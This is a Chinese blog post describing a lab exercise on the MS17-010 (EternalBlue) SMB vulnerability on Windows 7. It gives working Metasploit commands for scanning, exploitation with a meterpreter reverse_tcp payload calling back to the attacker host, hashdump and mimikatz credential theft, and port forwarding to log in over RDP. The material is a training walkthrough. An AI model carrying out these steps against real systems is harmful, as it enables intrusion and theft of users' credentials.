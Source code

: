 ```yaml
---
layout:     post
title:      MS17-010远程溢出漏洞
subtitle:   CVE-2017-0143
date:       2018-05-09
author:     Waldo
header-img: img/post-bg-swift.jpg
catalog: true
tags:
    - web安全 
    
---
```


[使用i春秋环境实验](https://www.ichunqiu.com/vm/61645/1)

#### 实验环境

*   操作机 ：`Kali 2017`

*   操作机IP：`172.16.11.2`

*   目标机：`Windows 7`

*   目标机IP：`172.16.12.2`

#### 实验目的

*   认知Windows远程溢出漏洞的危害

*   知悉MS17-010漏洞的发现和验证过程

*   学习Metasploit工具的进阶使用

#### 实验工具

`Nmap`:端口扫描探测工具，用于探测端口开放情况，本次使用其端口扫描和漏洞扫描功能

`mestasploit`：开源的渗透测试框架软件、综合型漏洞利用工具，本次实验使用其漏洞利用模块、meterpreter组件

#### 实验内容

**漏洞原理简述**

MS17-010漏洞出现在Windows SMB v1中的内核态函数`srv!SrvOs2FeaListToNt`在处理`FEA`(File Extended Attributes)转换时，在大非分页池(Large Non-Paged Kernel Pool)上存在缓冲区溢出。

函数`srv!SrvOs2FeaListToNt`在将`FEA` list转换成`NTFEA`(Windows NT FEA) list前会调用`srv!SrvOs2FeaListSizeToNt`去计算转换后的FEA lsit的大小，因计算大小错误，而导致缓冲区溢出。

#### 实验步骤

曾经NSA工具箱泄露时，我们已经对永恒之蓝这个工具的使用做过讲解！[【NSA黑客工具包】Windows 0day验证实验](https://www.ichunqiu.com/course/58005)。

然而，该工具的使用环境比较苛刻，而且操作较为复杂，现在msf已经加入该系列工具，使用方法更便捷。接下来，就开始操作吧！

#### 第1步 端口探测

打开Kali终端，使用Nmap对目标机开放端口进行扫描

```
nmap  -sV -Pn 172.16.12.2

```

目标机开放了`135` `139` `445` `3389`等端口，且目标机系统为Windows7,

#### 第2步 漏洞扫描

我们使用用扫描模块，判断该漏洞是否可利用

> 还记得ms08-067的nmap扫描脚本吗？MSF也有扫描模块~

终端内输入

```
msfconsole

```

打开 `metasploite` 命令行客户端，使用`search`命令查找ms17-010漏洞的相关模块

```
search ms17-010

```

如下是相关可用模块

![search.png](https://upload-images.jianshu.io/upload_images/7216746-b158c24cbed53fd6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

使用`use`命令选择我们要使用的扫描模块

```
use auxiliary/scanner/smb/smb_ms17_010

```

![use.png](https://upload-images.jianshu.io/upload_images/7216746-9892be6de913800b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

在运行该模块之前，需要设置相关选项，我们使用`show options`查看配置信息

 ![RHOSTS.png](https://upload-images.jianshu.io/upload_images/7216746-912b0aca5a4ae86b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


需要设置目标地址，设置命令：

```
set RHOSTS 172.16.12.2

```

设置完成后，执行`run`或`exploit`命令，等待执行结果

 ![run.png](https://upload-images.jianshu.io/upload_images/7216746-ceb3e1aea13bd4ae.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


#### 第3步：漏洞利用

从上一步骤可以看出，该漏洞是可被利用的，接下来，我们祭出漏洞利用模块

```
use exploit/windows/smb/ms17_010_eternalblue

```

![useexp.png](https://upload-images.jianshu.io/upload_images/7216746-2311def1aaf72fc2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

步骤同上，查看配置信息，并设置标记为yes的属性

`show options`

目标机host地址:172.16.12.2

`set RHOST 172.16.12.2`

![RHOST.png](https://upload-images.jianshu.io/upload_images/7216746-f99d425efb32d9bb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

> 注意此处为RHOST，与扫描时的RHOSTS不一样

之后，选择载荷`payload`，也就是`shellcode`,此处我们选择回连至控制端`shell`的`payload`

```
set payload  windows/x64/meterpreter/reverse_tcp

```

同样，载荷也需要进行配置，`show options`查看配置信息

![LHOST.png](https://upload-images.jianshu.io/upload_images/7216746-170794683aa81000.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

配置中缺少本地主机 RHOST，设置一下

```
set LHOST 172.16.11.2

```

> 本地端口LPORT默认为4444，可通过`set LPORT 端口号`修改

完成配置后，运行`exploit`或者`run`,开始执行漏洞利用模块

![run.gif](https://upload-images.jianshu.io/upload_images/7216746-65d85b287a9cadfb.gif?imageMogr2/auto-orient/strip)
 

成功获取来自目标主机的Session会话

#### 第4步：远程登录目标机

我们已经成功的获取Session会话了，本次我们继续介绍meterpreter后渗透模块的其他功能

运行`sysinfo`查看目标机器相关信息

![systeminfo.png](https://upload-images.jianshu.io/upload_images/7216746-43d4414f46d3466f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

执行`help`命令可以帮助我们了解meterpreter有哪些功能

![help.png](https://upload-images.jianshu.io/upload_images/7216746-4dd10567ab4329a7.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

接下来，我们获取目标机hash值

执行`hashdump`

![hashdump.png](https://upload-images.jianshu.io/upload_images/7216746-e5a3eca116cda2d5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

`mimikatz`是一个知名的密码提取神器。它支持从Windows系统内存中提取明文密码、哈希、PIN码和Kerberos凭证等，`meterpreter`中正集成了这款工具。

执行`load mimikatz`即可加载该工具，其命令与`mimikatz`一样

运行命令`msv`,导出hash

![msv.gif](https://upload-images.jianshu.io/upload_images/7216746-d04d7fd867f8c829.gif?imageMogr2/auto-orient/strip)
 

然后执行`kerberos`即可获得目标机账号密码

![kerberos.png](https://upload-images.jianshu.io/upload_images/7216746-8fcf48317c0c072a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

获取了目标机的账号密码，我们结合nmap的扫描结果，可以远程登陆目标机 但是现实中，防火墙一般会拦截外来3389端口的访问请求，这种情况下该怎么解决呢？

我们可以使用端口转发工具，将端口转发到访问者本地机器的某个端口，从而进行连接

运行命令

```
portfwd add -l 3389 -L 127.0.0.1 -p 3389 -r 172.16.12.2

```

![portfwd.png](https://upload-images.jianshu.io/upload_images/7216746-619a15d7ff4ad4e9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

此处，我们将远程目标的3389端口，转发到本机 172.16.11.2的3389上

> 本地端口号可设置为其他未监听的端口

如此，我们只要执行

```
rdesktop  127.0.0.1 -u ichunqiu  -p ichunqiu

```

![rdesktop.png](https://upload-images.jianshu.io/upload_images/7216746-538ed12c95e298a4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

即可登陆远程目标机器

![3389.png](https://upload-images.jianshu.io/upload_images/7216746-04554b2270c0facd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
 

#### 实验结果分析与总结

通过本次实验，我们熟悉了从发现漏洞、到验证漏洞、再到利用漏洞这一过程，并进一步学习了Metasploit的后渗透模块的其他使用案例。

通过结合实例去学习MSF的使用，反复训练，相信大家一定能熟能生巧，彻底掌握这一工具。

#### 思考

*   如果目标机将3389端口关闭，是否能通过meterpreter打开？

*   getgui功能了解一下？

